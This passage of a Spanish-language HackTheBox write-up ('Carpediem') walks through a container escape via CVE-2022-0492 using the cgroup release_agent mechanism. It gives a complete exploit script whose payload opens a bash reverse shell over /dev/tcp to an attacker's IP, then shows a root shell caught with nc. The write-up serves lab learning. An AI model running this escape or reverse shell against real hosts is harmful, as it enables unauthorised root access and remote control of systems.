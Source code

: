 > Tengamos en cuenta que al hacer la montura, esta sea montada en el **cgroup root** (cat /proc/self/cgroup), ya que de esa manera podremos visualizar el archivo _release_agent_
{: .prompt-warning}

Ahora tenemos que invocar la característica _notify\_on\_release_

```sh
echo 1 > /tmp/cgrp/x/notify_on_release
```

Luego asignamos el path donde colocaremos el archivo que ejecutaremos _/cmd_

```sh
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

Ahora solo escribimos los comando que queremos ejecutar en el archivo

```sh
echo '#!/bin/sh' > /cmd
echo "id > $host_path/output" >> /cmd
chmod a+x /cmd
```

Por último solo creamos un proceso que termine al mismo instante para así llamar al archivo _release_agent_ y ejecutar nuestro archivo _/cmd_

```sh
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Podemos juntar todo en un script y ejecutarlo:

```sh
#!/bin/sh

# unshare -UrmC bash
mkdir /tmp/.privesc
mkdir /tmp/.privesc/mountest
mount -t cgroup -o rdma cgroup /tmp/.privesc/mountest
mkdir /tmp/.privesc/mountest/x
echo 1 > /tmp/.privesc/mountest/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/mountest/release_agent
echo '#!/bin/sh' > /cmd
echo "bin/bash -c 'bash -i >& /dev/tcp/$1/$2 0>&1'" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/.privesc/mountest/x/cgroup.procs"
```

> Puedes encontrar el script en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/Auto-tools_Carpediem/CVE-2022-0492/cve-2022-0492.sh)
{: .prompt-info}

Finalmente somo usuarios `root` de la máquina `10.10.11.167` y conseguimos la flag:

```console
root@90c7f522b842:/tmp# ./CVE-2022-0492.sh 10.10.14.62 6666
root@90c7f522b842:/tmp# 

───────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 6666
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
Ncat: Connection from 10.10.11.167.
Ncat: Connection from 10.10.11.167:40250.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@carpediem:/# whoami
```